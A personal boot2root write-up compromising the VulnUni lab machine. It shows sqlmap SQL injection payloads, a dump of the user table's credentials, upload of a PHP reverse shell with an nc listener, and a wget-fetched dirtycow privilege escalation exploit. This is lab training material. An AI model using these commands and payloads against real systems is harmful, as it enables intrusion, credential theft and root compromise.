





VulnUni boot2root
Its been a while since I did a boot2root, and I got really bored one weekend so I decided to do one.
Discovery
All good things start off with nmap, and in this case I'll just use the defaults.
nmap -Pn -n 192.168.0.120
Starting Nmap 7.70 ( https://nmap.org ) at 2020-05-18 17:53 BST Nmap scan report for 192.168.0.120 Host is up (0.0077s latency). Not shown: 999 filtered ports PORT STATE SERVICE 80/tcp open http Nmap done: 1 IP address (1 host up) scanned in 13.34 seconds
Only port 80 reported from a basica scan, for now I'll continue on port 80, until I hit any road blocks.
Content discovery is next on the list, and gobuster is pretty good at that.
./gobuster dir -u http://192.168.0.120/ -w ~/opt/SecLists/Discovery/Web-Content/common.txt
=============================================================== Gobuster v3.0.1 by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_) =============================================================== [+] Url: http://192.168.0.120/ [+] Threads: 10 [+] Wordlist: ~/opt/SecLists/Discovery/Web-Content/common.txt [+] Status codes: 200,204,301,302,307,401,403 [+] User Agent: gobuster/3.0.1 [+] Timeout: 10s =============================================================== 2020/05/18 17:55:05 Starting gobuster =============================================================== /.htaccess (Status: 403) /.htpasswd (Status: 403) /.hta (Status: 403) /about (Status: 200) /blog (Status: 200) /cgi-bin/ (Status: 403) /contact (Status: 200) /courses (Status: 200) /css (Status: 301) /fonts (Status: 301) /images (Status: 301) /index (Status: 200) /index.html (Status: 200) /js (Status: 301) /server-status (Status: 403) =============================================================== 2020/05/18 17:55:09 Finished ===============================================================
Hmm not much to go on, I tried a bunch of other wordlists, but nothing..
Maybe I'm over complicating things.
A bit of looking around later I decided to look at the source for comments, and yeah I've found a comment of interest.
curl -s http://192.168.0.120/courses.html | grep "<!--"
<!-- Disabled till new version is installed -->
<!-- <li class="nav-item"><a href="vulnuni-eclass-platform.html" class="nav-link">EClass Platform</a></li> -->
<!-- END nav -->
<p><!-- Link back to Colorlib can't be removed. Template is licensed under CC BY 3.0. -->
<!-- Link back to Colorlib can't be removed. Template is licensed under CC BY 3.0. --></p>
<!-- loader -->
The page vulnuni-eclass-platform.html did not come up in the directory brute force, so lets browse to that.
And sure enough, there is what looks to be an admin portal.

Exploitation
Looking for exploits for the Admin portal (eClass) with getsploit.
./getsploit eClass
Total found exploits: 8 Web-search URL: https://vulners.com/search?query=bulletinFamily%3Aexploit+AND+eClass +----------------------+--------------------------------+----------------------------------------------------------------------------------------------------+ | ID | Exploit Title | URL | +======================+================================+====================================================================================================+ | BABBBSNW6R3JOXCPVRHB | WAFs don't work | https://vulners.com/advertisement/BABBBSNW6R3JOXCPVRHB5HWHMRDWJ4QW809F9V8OS5Q6BVKSZ1C77FRPA125R2NS | | 5HWHMRDWJ4QW809F9V8O | | | | S5Q6BVKSZ1C77FRPA125 | | | | R2NS | | | +----------------------+--------------------------------+----------------------------------------------------------------------------------------------------+ | 1337DAY-ID-34046 | GUnet OpenEclass 1.7.3 | https://vulners.com/zdt/1337DAY-ID-34046 | | | E-learning platform - (month) | | | | SQL Injection Vulnerability | | +----------------------+--------------------------------+----------------------------------------------------------------------------------------------------+ | EXPLOITPACK:1041FF25 | GUnet OpenEclass 1.7.3 | https://vulners.com/exploitpack/EXPLOITPACK:1041FF2504B12FD3B42DAC15838CE996 | | 04B12FD3B42DAC15838C | E-learning platform - month | | | E996 | SQL Injection | | +----------------------+--------------------------------+----------------------------------------------------------------------------------------------------+ | PACKETSTORM:156601 | GUnet OpenEclass 1.7.3 SQL | https://vulners.com/packetstorm/PACKETSTORM:156601 | | | Injection | | +----------------------+--------------------------------+----------------------------------------------------------------------------------------------------+ | EDB-ID:48163 | GUnet OpenEclass 1.7.3 | https://vulners.com/exploitdb/EDB-ID:48163 | | | E-learning platform - | | | | 'month' SQL | | | | Injection | | +----------------------+--------------------------------+----------------------------------------------------------------------------------------------------+ | EXPLOITPACK:D446B164 | GUnet OpenEclass E-learning | https://vulners.com/exploitpack/EXPLOITPACK:D446B164277D1EC17F7D9AE0665B19D2 | | 277D1EC17F7D9AE0665B | platform 1.7.3 - uname SQL | | | 19D2 | Injection | | +----------------------+--------------------------------+----------------------------------------------------------------------------------------------------+ | EDB-ID:48106 | GUnet OpenEclass E-learning | https://vulners.com/exploitdb/EDB-ID:48106 | | | platform 1.7.3 - | | | | 'uname' SQL | | | | Injection | | +----------------------+--------------------------------+----------------------------------------------------------------------------------------------------+ | SSV:3077 | Gentoo ssl-cert eclass | https://vulners.com/seebug/SSV:3077 | +----------------------+--------------------------------+----------------------------------------------------------------------------------------------------+
Lets try SQL injection on the login pages uname parameter then.
./sqlmap.py -u http://192.168.0.120/vulnuni-eclass/ --data "uname=test&pass=test&submit=Enter" -p uname
___
__H__
___ ___[']_____ ___ ___ {1.4.5.24#dev}
|_ -| . ['] | .'| . |
|___|_ [(]_|_|_|__,| _|
|_|V... |_| http://sqlmap.org
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
[*] starting @ 18:13:45 /2020-05-18/
[18:13:45] [INFO] resuming back-end DBMS 'mysql'
[18:13:45] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=8v517iblhcp...6du7esuin7'). Do you want to use those [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: uname (POST)
Type: time-based blind
Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
Payload: uname=test' AND (SELECT 9462 FROM (SELECT(SLEEP(5)))fxbY) AND 'PLXO'='PLXO&pass=test&submit=Enter
---
[18:13:45] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 13.04 or 12.04 or 12.10 (Raring Ringtail or Precise Pangolin or Quantal Quetzal)
web application technology: Apache 2.2.22, PHP 5.3.10, PHP
back-end DBMS: MySQL >= 5.0.12
[*] ending @ 18:13:45 /2020-05-18/
Yep, looks like we have injection. Using sqlmap more I've found out that the current database is eclass.
[18:16:51] [INFO] fetching current database [18:16:51] [INFO] resumed: eclass current database: 'eclass'
Looking around that database for a bit I found a column for username & passwords.
./sqlmap.py -u http://192.168.0.120/vulnuni-eclass/ --data "uname=test&pass=test&submit=Enter" -p uname -D eclass -T user --dump --batch
___
__H__
___ ___[)]_____ ___ ___ {1.4.5.24#dev}
|_ -| . ['] | .'| . |
|___|_ [(]_|_|_|__,| _|
|_|V... |_| http://sqlmap.org
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
[*] starting @ 11:40:35 /2020-05-25/
[11:40:35] [INFO] resuming back-end DBMS 'mysql'
[11:40:35] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=n08sq64vm1r...7srvt7s0o4'). Do you want to use those [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: uname (POST)
Type: time-based blind
Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
Payload: uname=test' AND (SELECT 9462 FROM (SELECT(SLEEP(5)))fxbY) AND 'PLXO'='PLXO&pass=test&submit=Enter
---
[11:40:35] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 13.04 or 12.04 or 12.10 (Raring Ringtail or Precise Pangolin or Quantal Quetzal)
web application technology: Apache 2.2.22, PHP 5.3.10, PHP
back-end DBMS: MySQL >= 5.0.12
[11:40:35] [INFO] fetching columns for table 'user' in database 'eclass'
[11:40:35] [INFO] resumed: 11
[11:40:35] [INFO] resumed: user_id
[11:40:35] [INFO] resumed: nom
[11:40:35] [INFO] resumed: prenom
[11:40:35] [INFO] resumed: username
[11:40:35] [INFO] resumed: password
[11:40:35] [INFO] resumed: email
[11:40:35] [INFO] resumed: statut
[11:40:35] [INFO] resumed: phone
[11:40:35] [INFO] resumed: department
[11:40:35] [INFO] resumed: inst_id
[11:40:35] [INFO] resumed: am
[11:40:35] [INFO] fetching entries for table 'user' in database 'eclass'
[11:40:35] [INFO] fetching number of entries for table 'user' in database 'eclass'
[11:40:35] [INFO] resumed: 4
[11:40:35] [INFO] resumed: smith.j.1971
[11:40:35] [INFO] resumed:
[11:40:35] [INFO] resumed: 4
[11:40:35] [INFO] resumed: smith.j@gmail.com
[11:40:35] [INFO] resumed:
[11:40:35] [INFO] resumed: Smith
[11:40:35] [INFO] resumed:
[11:40:35] [INFO] resumed: John
[11:40:35] [INFO] resumed: 1
[11:40:35] [INFO] resumed: 2
[11:40:35] [INFO] resumed: smith.j
[11:40:35] [INFO] resumed: ilikecats89
[11:40:35] [INFO] retrieved: [11:40:35] [WARNING] (case) time-based comparison requires larger statistical model, please wait.............................. (done)
[11:40:36] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions
[11:40:36] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
[11:40:36] [INFO] resumed:
[11:40:36] [INFO] resumed: adminvulnuni@gmail.com
[11:40:36] [INFO] resumed:
[11:40:36] [INFO] resumed: admin
[11:40:36] [INFO] resumed:
[11:40:36] [INFO] resumed: admin
[11:40:36] [INFO] resumed: 1
[11:40:36] [INFO] resumed: 1
[11:40:36] [INFO] resumed: admin
[11:40:36] [INFO] resumed: hf74nd9dmw
[11:40:36] [INFO] resumed: 1758694758
[11:40:36] [INFO] resumed: 4
[11:40:36] [INFO] resumed: garris.e@gmail.com
[11:40:36] [INFO] resumed:
[11:40:36] [INFO] resumed: Garris
[11:40:36] [INFO] resumed:
[11:40:36] [INFO] resumed: Erick
[11:40:36] [INFO] resumed: 5
[11:40:36] [INFO] resumed: 3
[11:40:36] [INFO] resumed: garris.e
[11:40:36] [INFO] resumed: i74nw02nm3
[11:40:36] [INFO] resumed: 5684758210
[11:40:36] [INFO] resumed: 4
[11:40:36] [INFO] resumed: perez.s@gmail.com
[11:40:36] [INFO] resumed:
[11:40:36] [INFO] resumed: Perez
[11:40:36] [INFO] resumed:
[11:40:36] [INFO] resumed: Stephanie
[11:40:36] [INFO] resumed: 5
[11:40:36] [INFO] resumed: 4
[11:40:36] [INFO] resumed: perez.s
Database: eclass
Table: user
[4 entries]
+---------+---------+------------+--------+-------+------------------------+-----------+--------+----------+--------------+------------+
| user_id | inst_id | am | nom | phone | email | prenom | statut | username | password | department |
+---------+---------+------------+--------+-------+------------------------+-----------+--------+----------+--------------+------------+
| 2 | NULL | NULL | Smith | NULL | smith.j@gmail.com | John | 1 | smith.j | smith.j.1971 | 4 |
| 1 | NULL | <blank> | admin | NULL | adminvulnuni@gmail.com | admin | 1 | admin | ilikecats89 | NULL |
| 3 | NULL | 1758694758 | Garris | NULL | garris.e@gmail.com | Erick | 5 | garris.e | hf74nd9dmw | 4 |
| 4 | NULL | 5684758210 | Perez | NULL | perez.s@gmail.com | Stephanie | 5 | perez.s | i74nw02nm3 | 4 |
+---------+---------+------------+--------+-------+------------------------+-----------+--------+----------+--------------+------------+
[*] ending @ 11:40:36 /2020-05-25/
Exploitation
Logging into the application with the admin creds above I get admin access to the application.
Reviewing the admin functionality there is the ability to upload a .zip file in the "Restore a course" functionality.

I'll upload a php reverse shell.
First I need to download it.
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
And then use this nice one liner to change the IP address in the file.
sed -i s/"$ip = '127.0.0.1';"/"$ip = '$(ip addr show wlp3s0 | grep inet | cut -d ' ' -f 6 | cut -d '/' -f 1)';"/g ./php-reverse-shell.php
Then make the zip and upload.
zip payload.zip ./php-reverse-shell.php
updating: php-reverse-shell.php (deflated 59%)
Finally setup a listener for the shell to come back on.
nc -nlvp 1234
The next step is to call the file I uploaded, during discovery I did notice directory listing at /vulnuni-eclass/courses/
Looking back there in the tmp folder I see the uploaded reverse shell. and if I call that with curl I get a shell on my listener.
curl -s http://www.vulnuni.local/vulnuni-eclass/courses/tmpUnzipping/php-reverse-shell.php

Post Exploitation
First things first is that I need an interactive shell. I'll do that with the following command.
/bin/bash -i
Its not perfect, and I know there are much better ways to have a "full" shell, but it'll do for me.
The first flag is in the home directory..

Remember the output when I got the shell, it included the kernel version, searching for an exploit, I discovered that it may be vulnerable to dirtycow.
I decided to download it to the box, and compile it.
cd /tmp && wget https://gist.githubusercontent.com/scumjr/17d91f20f73157c722ba2aea702985d2/raw/a37178567ca7b816a5c6f891080770feca5c74d7/dirtycow-mem.c
The exploit has a comment on how to compile it. and it seemed like it worked on the box. Now to run it.

Yep, got root.